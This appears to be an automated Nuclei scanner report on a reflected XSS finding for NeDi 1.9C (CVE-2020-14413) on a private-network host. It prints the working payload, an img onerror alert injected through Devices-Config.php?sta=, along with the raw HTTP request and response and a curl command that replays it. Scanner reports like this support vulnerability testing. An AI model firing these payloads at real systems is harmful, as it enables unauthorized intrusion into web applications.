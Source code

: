 ### NeDi 1.9C XSS (CVE-2020-14413) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-14413**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/Devices-Config.php?sta=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E

**Timestamp**: Wed Jun 8 20:22:32 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | NeDi 1.9C XSS |
| Authors | pikpikcu |
| Tags | cve, cve2020, nedi, xss |
| Severity | medium |
| Description | NeDi 1.9C is vulnerable to XSS because of an incorrect implementation of sanitize() in inc/libmisc.php. This function attempts to escape the SCRIPT tag from user-controllable values, but can be easily bypassed, as demonstrated by an onerror attribute of an IMG element as a Devices-Config.php?sta= value. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-14413](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-14413) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /Devices-Config.php?sta=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 209
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/Devices-Config.php?sta="><img src=x onerror=alert(document.domain)></B> was not found.</BODY></HTML>
```

References: 
- https://gist.github.com/farid007/8db2ab5367ba00e87f9479b32d46fea8

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://192.168.198.179:8080/Devices-Config.php?sta=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)